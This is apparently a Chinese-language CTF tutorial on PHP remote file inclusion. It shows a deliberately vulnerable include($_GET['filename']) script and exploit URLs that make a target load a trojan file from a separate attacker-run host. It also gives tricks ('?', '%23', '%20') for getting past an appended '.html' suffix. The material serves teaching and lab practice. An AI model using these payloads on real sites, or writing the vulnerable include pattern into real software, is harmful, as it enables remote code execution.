







# 远程文件包含漏洞
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

###无限制远程文件包含漏洞

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
在远程服务器上面搭一个网站，并将木马文件放到网站目录下，如果直接访问php代码不解析。


通过远程文件包含漏洞，包含php.txt可以解析。

```
http://www.ctfs-wiki.com/FI/FI.php?filename=http://192.168.91.133/FI/php.txt
```
测试结果：

php.txt中的php代码已经被执行

###有限制远程文件包含漏洞绕过
测试代码：
```
<?php include($_GET['filename'] . ".html"); ?> 
```
代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。


####问号绕过
```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?
```

#### #号绕过
```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23
```

####还有哪些可以绕过？用burp跑一遍发现空格也可以绕过

```
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20
```

